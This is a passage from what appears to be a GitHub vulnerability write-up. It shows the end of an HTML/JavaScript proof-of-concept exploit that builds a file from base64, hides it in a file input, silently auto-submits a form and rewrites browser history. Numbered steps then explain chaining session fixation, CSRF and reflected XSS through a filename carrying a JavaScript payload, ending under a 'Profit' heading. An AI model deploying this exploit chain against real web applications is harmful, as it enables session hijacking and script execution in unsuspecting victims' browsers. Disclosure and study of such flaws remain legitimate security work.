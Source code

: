 ```html
            for (let i = 0; i < len; i++) {
                buffer[i] = binary.charCodeAt(i);
            }
            return new Blob([buffer], { type: mimeType });
        }

        // Create a Blob from the base64 string and a File from the Blob
        const blob = base64ToBlob(base64String, mimeType);
        const file = new File([blob], fileName, { type: mimeType });

        // Create a hidden file input and assign the file to it
        const fileInput = document.createElement('input');
        fileInput.type = 'file';
        fileInput.style.display = 'none';
        fileInput.name = 'REDACTED';

        const fileList = new DataTransfer();
        fileList.items.add(file);
        fileInput.files = fileList.files;

        // Add the file input to the form
        form.appendChild(fileInput);

        // Submit the form automatically
        form.submit();

        // Optionally update the browser history
        history.pushState('', '', '/');
    </script>
</body>
</html>
```

## Session Fixation + CSRF + XSS
1. Save the HTML exploit locally or place it in a webhosting
2. Navigate the page
3. The malicious page creates a custom upload request with an arbitrary filename (our JavaScript payload), including the fixed Session Token, targeting the vulnerable endpoint (CSRF), and ultimately triggering the reflected XSS.
4. See the javascript execution

![mr robot](https://github.com/user-attachments/assets/28304552-ed99-4ce1-8175-2d068f819551)


![Clipboard_2025-02-15-13-47-28](https://github.com/user-attachments/assets/3e59bb88-4bb8-46e0-b354-042cbffe0c52)

## Profit

![Clipboard_2025-02-15-13-42-34](https://github.com/user-attachments/assets/7a740d03-5766-433f-9cfe-6ff3c94bdbc2)


